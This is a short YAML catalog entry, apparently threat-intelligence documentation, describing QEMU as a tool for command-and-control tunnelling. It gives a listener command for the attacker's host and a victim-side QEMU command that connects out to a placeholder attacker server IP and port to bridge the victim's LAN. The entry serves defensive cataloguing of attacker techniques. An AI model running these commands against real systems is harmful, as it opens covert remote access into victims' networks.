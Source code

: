 ```yaml
---
Name: QEMU
Description: "QEMU is a free and open-source emulator that uses dynamic binary translation to emulate a computer's processor"
Author: 'Kirill Magaskin'
Created: 2025-02-18
Usage:
  - Steps: qemu-system-x86_64 -boot d -cdrom <AnyISOImage> -m 6048 -device e1000,netdev=n1, mac=<AnyMAC> -smp 2 -netdev socket,id=n1,listen=:<Port>
    Description: "Steps to create a QEMU listener on attacker's host on some PORT"
    Usecase: Establishing C2 Channel
    Category: C2 Channel
    Privileges: User
    Limitations: None
    MitreID: T1090
  - Steps: qemu-system-i386.exe -m 1M -netdev user,id=lan,restrict=off -netdev socket,id=sock,connect=<AttackerServerIP>:<AttackerServerPort> -netdev hubport,id=port-lan,hubid=0,netdev=lan -netdev hubport,id=port-sock,hubid=0,netdev=sock -nographic
    Description: "Steps to create a QEMU socket network device on victim's host"
    Usecase: Establishing C2 Channel
    Category: C2 Channel
    Privileges: User
    Limitations: None
    MitreID: T1090
Resources:
  - Link: https://securelist.com/network-tunneling-with-qemu
Acknowledgement:
  - Person: 'Grigory Sablin'
    Handle: '@grixa'
---
```

